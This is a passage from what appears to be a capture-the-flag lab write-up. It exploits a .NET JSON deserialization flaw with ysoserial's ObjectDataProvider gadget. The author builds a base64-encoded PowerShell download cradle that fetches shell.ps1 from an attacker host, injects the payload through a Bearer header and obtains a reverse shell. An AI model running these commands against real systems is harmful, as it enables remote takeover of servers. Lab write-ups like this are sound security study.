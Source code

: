 So I tried different gadgets, and eventually the `ObjectDataProvider` one worked. In my testing, it threw a lot of Powershell errors, so I thought it would be better if we used a Powershell shell instead.

First, let's get the encoded Powershell command:

{% code overflow="wrap" %}
```
$ echo -n "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.42/shell.ps1')" | iconv -t UTF-16LE | base64 -w 0; echo

SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4AZABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAJwBoAHQAdABwADoALwAvADEAMAAuADEAMAAuADEANAAuADQAMgAvAHMAaABlAGwAbAAuAHAAcwAxACcAKQA=
```
{% endcode %}

Afterwards, we can pass this into `ysoserial.exe`.&#x20;

{% code overflow="wrap" %}
```
ysoserial.exe -g ObjectDataProvider -f json.net -c "powershell -EncodedCommand SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4AZABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAJwBoAHQAdABwADoALwAvADEAMAAuADEAMAAuADEANAAuADQAMgAvAHMAaABlAGwAbAAuAHAAcwAxACcAKQA=" -o base64
```
{% endcode %}

Then, we can send the encoded payload as the value of the `Bearer` header.&#x20;

<figure><img src="../../../.gitbook/assets/image (112) (4).png" alt=""><figcaption></figcaption></figure>

This would still return 500, but we would get a GET request for `shell.ps1` on a HTTP server and a reverse shell on our listener port!

<figure><img src="../../../.gitbook/assets/image (116).png" alt=""><figcaption></figcaption></figure>
